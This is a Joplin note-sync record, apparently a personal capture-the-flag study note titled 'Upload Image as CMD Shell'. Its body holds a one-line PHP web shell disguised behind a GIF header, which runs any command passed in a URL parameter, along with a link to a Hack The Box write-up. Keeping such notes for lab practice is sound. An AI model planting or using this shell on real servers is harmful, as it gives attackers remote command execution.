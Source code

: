 id: e27c629918e841aa9f9c926cbdd1f5e5
parent_id: 
item_type: 1
item_id: cfb5a6ee4d8d43268661b230cc45b613
item_updated_time: 1652287396307
title_diff: "[{\"diffs\":[[1,\"Upload Image as CMD Shell\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":25}]"
body_diff: "[{\"diffs\":[[1,\"```\\\nGIF8 <?php system($_GET['cmd']);?>\\\n```\\\n\\\nhttps://chr0x6eos.github.io/2020/08/22/htb-Magic.html\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":97}]"
metadata_diff: {"new":{"id":"cfb5a6ee4d8d43268661b230cc45b613","parent_id":"8e7bd5349cf3494986eccd0619b576c9","latitude":"1.28795004","longitude":"103.85178375","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-11T16:45:16.783Z
created_time: 2022-05-11T16:45:16.783Z
type_: 13